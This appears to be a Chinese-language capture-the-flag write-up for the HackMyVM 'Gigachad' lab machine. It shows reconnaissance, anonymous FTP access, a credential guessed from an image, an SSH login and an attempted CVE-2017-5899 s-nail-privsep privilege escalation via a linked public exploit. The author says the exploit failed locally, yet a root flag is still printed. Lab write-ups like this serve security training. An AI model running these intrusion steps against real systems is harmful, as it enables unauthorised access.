

# Gigachad

:::note

[Linux VM] [Tested on VirtualBox] created by || tasiyanci

⏲️ Release Date // 2021-02-10

✔️ MD5 // 8bf513626e3154e29861b38b23051113

☠ Root // 116

💀 User // 124

📝Notes //
Tested on and exported from virtualbox.

:::

## 靶机启动



靶机 IP：

```plaintext
192.168.56.113
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.113
Host is up (0.00044s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x    1 1000     1000          297 Feb 07  2021 chadinfo
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6afed61723cb90792bb12d3753974658 (RSA)
|   256 5bc468d18959d748b096f311871c08ac (ECDSA)
|_  256 613966881d8ff1d040611e99c51a1ff4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/kingchad.html
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:D9:9A:81 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ftp 服务存在匿名登陆

```shell
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $ftp 192.168.56.113
Connected to 192.168.56.113.
220 (vsFTPd 3.0.3)
Name (192.168.56.113:randark): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    2 1000     1000         4096 Feb 07  2021 .
dr-xr-xr-x    2 1000     1000         4096 Feb 07  2021 ..
-r-xr-xr-x    1 1000     1000          297 Feb 07  2021 chadinfo
226 Directory send OK.
ftp>
```

将 `chadinfo` 文件下载到本地，发现为 zip 压缩文件

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Gigachad]
└──╼ $file chadinfo
chadinfo: Zip archive data, at least v1.0 to extract
```

解压后得到

```shell
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
```

## 探测 web 服务

尝试直接访问


在原始返回中，发现以下数据

```plaintext
A7F9B77C16A3AA80DAA4E378659226F628326A95
D82D10564866FD9B201941BCC6C94022196F8EE8
```

尝试访问 ftp 服务中得到的路径 `/drippinchad.png`


目测并不存在隐写，但是经过搜索，得到了图像中的地名：`maidenstower`

结合上文得到的用户名，组合为凭据

```plaintext
chad:maidenstower
```

尝试登录

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Gigachad]
└──╼ $pwncat-cs chad@192.168.56.113
[21:07:34] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
Password: ************
[21:07:39] 192.168.56.113:22: normalizing shell path                                                                                                      manager.py:957
[21:07:40] 192.168.56.113:22: registered new host w/ db                                                                                                   manager.py:957
(local) pwncat$ back
(remote) chad@gigachad:/home/chad$ whoami
chad
```

## user pwned

```shell
(remote) chad@gigachad:/home/chad$ cat user.txt
0FAD8F4B099A26E004376EAB42B6A56A
```

## 提权探测

```plaintext title="sudo -l"
-bash: sudo: command not found
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

经过查阅资料，`s-nail-privsep` 存在 `CVE-2017-5899` 漏洞，可以用于提权

## `s-nail-privsep` `CVE-2017-5899` 漏洞利用

使用 poc：`https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh`

```shell
(remote) chad@gigachad:/home/chad$ chmod +x s-nail-privsep_CVE-2017-5899.sh 
(remote) chad@gigachad:/home/chad$ ./s-nail-privsep_CVE-2017-5899.sh 
......

```

:::warning

s-nail-privsep 的漏洞我在本地未能利用成功，但是参考其他师傅的writeup，是存在成功的案例的，可能环境存在差异

:::

## root pwned

```plaintext title="/root/root.txt"
832B123648707C6CD022DD9009AEF2FD
```